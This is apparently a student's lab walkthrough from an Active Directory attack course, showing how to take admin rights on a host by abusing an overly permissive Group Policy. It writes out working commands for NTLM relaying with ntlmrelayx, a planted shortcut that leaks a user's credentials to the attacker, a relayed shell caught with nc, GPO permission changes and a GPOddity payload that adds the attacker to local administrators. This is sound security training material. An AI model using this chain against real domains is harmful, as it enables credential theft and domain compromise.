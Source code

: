 # **Abuse an overly permissive Group Policy to get admin access on dcorp-ci.**

Recall that we already found that DevOps policy is overly permissive that devopsadmin user has writeDacl,GenericWrite,Writeowner permission.So we abuse it.

First we need the access of devopsadmin user so that we can add our student219 user to the writeDacl of Devops Policy GPO

When viewing the file present inside the AI share ,, that denotes any .lnk files[shortcuts] that put inside it will be executed by the devopsadmin
```PS C:\AI> cat AI.log```
![alt text](image-20.png)

So using the above thing we relay the credentials of the devopsadmin user and get that privilege.
For that we setup a ntlmrelayx tool from the ubuntuWSL in student machine
``` sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.219 --http-port '80,8080' -i --no-smb-server```
![alt text](image-21.png)

Now create a shortcut[.lnk file] in the student machine's tools directory name it as Student219.lnk
and in location box input this ```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.x' -UseDefaultCredentials"```
"When a user clicks the shortcut, a web request is sent to our target where the ntlmrelayx is running and triggers authentication,, -UseDefaultCredentials will cause to send the current user creds and our ntlmrelay will relay the authentication and get the devopsadmin privilege"

AI share is hosted on the dcorp-ci machine and a user simulation executed the .lnk files present there,, so we need to copy our file from student machine's Tools directory to AI share hosted on the dcorp-ci.
``` xcopy Student219.lnk \\dcorp-ci\AI```

After few seconds we got the connect back where our ntlmrelayx is running
![alt text](image-22.png)

now open a new wsl session and run this command to catch the devopsadmin shell that is got by relaying
``` nc 127.0.0.1 11000```

and this shell is devopsadmin user shell so from here we have two ways to attain local administrator privilege
i)by adding the studentx user to WriteDacl permission of the DevOps Policy
ii)if we have no domain user then add student computer object to the WriteDacl of permissin of the DevOps Policy

why we adding student user or computer to the writedacl of the DevOps policy is we dont have the gpoditty tool on the dcorp-ci machine,, if we have that then straightly proceed out attack there itself,, but we dont have so adding student user or computer to the writedacl

i)doing this 
get the DevOps policy name
![alt text](image-24.png)
adding studentx user to the writeDacl 
``` write_gpo_dacl student219 {0BF8D01C-1F62-4BDC-958C-57140B67D147}```
 ![alt text](image-23.png)

so the student user is added to the WriteDacl of the DevOps policy,, so student user can change the ```gpcfilesyspath``` attribute to location of malicious template and for that they can use "GPOddity" tool to create malicious template that adds the student user to the local administrators group and change the ```gpcfilesyspath``` attribute location to the share that hosting the malicious template

command:
```  sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student219' --password 'use_vpn_credential' --command 'net localgroup administrators student219 /add' --rogue-smbserver-ip '172.16.100.219' --rogue-smbserver-share 'std219-gp' --dc-ip '172.16.2.1' --smb-mode none```

so the above command creates the malicious share and store it in the GPT_out directory also with this it just points the location to "std219-gp" share and it does not crreates one so we need to manuallly create it

so creating a directory called std219-gp annd copying all the things from the GPT_out directory
![alt text](image-25.png)

directory is created but we need to host that directory as share.
```>net share std219-gp=C:\AD\Tools\std219-gp```
make that share accessible to everyone so that dc or group policy can come and read this
```icacls "C:\AD\Tools\std219-gp" /grant Everyone:F /T```
![alt text](image-26.png)

after two minutes the malicious gpo is fetched and executed to all the things where this DevOps gpo is linked

verify is the gpcfilepath is changed 
command:```Get-DomainGPO -Identity 'DevOps Policy'```
before
![alt text](image-27.png)
after
![alt text](image-28.png)

so the studentx user will be added to the local administrators group and verify it by using 
command:
``` winrs -r:dcorp-ci cmd /c "set computername && set username"```



